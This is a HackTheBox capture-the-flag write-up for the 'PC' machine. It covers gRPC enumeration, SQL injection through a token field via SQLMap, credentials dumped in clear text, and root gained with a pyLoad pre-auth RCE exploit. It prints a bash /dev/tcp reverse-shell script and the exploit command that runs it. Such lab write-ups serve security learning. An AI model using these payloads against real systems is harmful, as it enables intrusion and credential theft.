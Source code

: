```yaml
---
title: HackTheBox - PC
date: 2023-06-20
author: Marius
tags: [ctf, 'Hack The Box', 'htb', 'linux']
---
```


Easy box found on HackTheBox.

### Enumeration

```
nmap -sV -sC -p- 10.10.11.214

Nmap scan report for 10.10.11.214
Host is up (0.040s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

### Exploitation

After fully enumerating the machine, I was only left with port, 50051 as an attack vector.

After doing some research I have found that port 50051 might be related to gRPC and I have found this [blog](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9) explaining some attack techniques.

I've installed **grpcurl** and **grpcui** and verified that indeed port is running gRPC.

![stuff](/assets/img/pc/1.png)

I have registered a new user and called LoginUser method where I have received ID and token.

![grpc stuff](/assets/img/pc/2.png)
![grpc stuff](/assets/img/pc/3.png)
![grpc stuff](/assets/img/pc/4.png)
![grpc stuff](/assets/img/pc/5.png)

I have then intercepted the request and saved it to use with SQLMap, which found a SQLi vulnerability in ID field.

```
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:40645
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-grpcui-csrf-token: l14qBp88ci6dm2cpfUuugIhGuJ0zgFCFpYA-zS5GPco
X-Requested-With: XMLHttpRequest
Content-Length: 193
Origin: http://127.0.0.1:40645
Connection: close
Referer: http://127.0.0.1:40645/
Cookie: _grpcui_csrf_token=l14qBp88ci6dm2cpfUuugIhGuJ0zgFCFpYA-zS5GPco
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibWFyaXVzIiwiZXhwIjoxNjg3Mjk0ODEwfQ.fBWPnJzZmT4HtlG339drklJrjnCfsQzM54E9-4t7GWo'"}],"data":[{"id":"630"}]}
```
I have dumped SQLite DB and got user credentials.

![stuff](/assets/img/pc/6.png)

sau:HereIsYourPassWord1431

Credentials were used to successfully log on as user **sau**.

### Privilege Escalation

After doing basic enumeration, I have noticed that the machine is hosting webserver on port 8000. I have created an SSH tunnel to access that service, as I did not have much luck with cURL.

```
sau@pc:~$ curl localhost:8000
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=http%3A%2F%2Flocalhost%3A8000%2F">/login?next=http%3A%2F%2Flocalhost%3A8000%2F</a>. If not, click the link.
```

```
ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214
```

![stuff](/assets/img/pc/7.png)

Looks like a pyLoad service is running. I have checked what version it's running and found a valid pre-auth RCE [exploit](https://www.exploit-db.com/exploits/51522)
.
```
sau@pc:~$ pyload --version
pyLoad 0.5.0
```

I have created a reverse shell script in temp folder and executed RCE script and received a root shell.

```
sau@pc:/tmp$ cat r.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.84/80 0>&1
```

```
└─$ python exploit.py -u http://127.0.0.1:8000 -c "bash /tmp/r.sh"
[+] Check if target host is alive: http://127.0.0.1:8000
[+] Host up, let's exploit! 
```

![stuff](/assets/img/pc/8.png)

